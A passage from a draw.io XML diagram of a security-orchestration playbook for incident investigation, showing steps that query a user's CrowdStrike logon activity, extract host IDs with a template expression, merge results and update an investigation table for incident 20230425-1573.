        <mxCell id="NKeEgVbL9whLPdXC6YmX-139" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;Administrator&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-145" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-140" target="NKeEgVbL9whLPdXC6YmX-144">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-140" value="Unwind&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3120" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-142" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[&quot;&quot;]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Recipients Information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Get user information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;phish@d3soar.com&quot;,&quot;support@d3soar.com&quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="880" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-149" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-148">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-150">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-144" value="Get User Logon Info&lt;br&gt;Command - RSA_CrowdstrikeUserLogonActivity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3320" y="540" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-146" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeUserLogonActivity&lt;/div&gt;&lt;div&gt;Parameter 1: Username&lt;/div&gt;&lt;div&gt;Administrator&lt;/div&gt;&lt;div&gt;Parameter 2: Last Hours&lt;/div&gt;&lt;div&gt;96&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="340" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-147" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="380" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-157" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-148" target="NKeEgVbL9whLPdXC6YmX-156">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-148" value="Extract Logon Host Aids&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="480" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-150" value="Investigation-Correlate User Logon Activity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="620" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-152" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set hostAids = PlaybookData | jsonpath(&#39;$.[&quot;Get User Logon Info&quot;].returnData.resources[*].aid&#39;)|to_list|unique|remove_empty_value_from_array%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{hostAids}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="310" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-153" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-154" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[{&#39;User Name&#39;: Undefined, &#39;Host Name&#39;: Undefined, &#39;Timestamp&#39;: Undefined, &#39;Local IP&#39;: &#39;&#39;, &#39;Remote IP&#39;: &#39;&#39;, &#39;Country&#39;: &#39;&#39;, &#39;City&#39;: &#39;&#39;}]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;User Login Activity in last 4 days&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="720" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-155" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="770" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-161" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-156" target="NKeEgVbL9whLPdXC6YmX-160">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-156" value="Merge Results&lt;br&gt;Merge" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4005" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-158" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Merge&lt;/div&gt;&lt;div&gt;Parameter 1: Condition&lt;/div&gt;&lt;div&gt;{&quot;groupBy&quot;:&quot;Playbook Instance&quot;,&quot;dataJsonPath&quot;:&quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-159" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;options&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;groupBy&quot;: &quot;Playbook Instance&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataJsonPath&quot;: &quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;total&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;match&quot;: true&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-160" value="Reformat Data" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4280" y="480" width="120" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
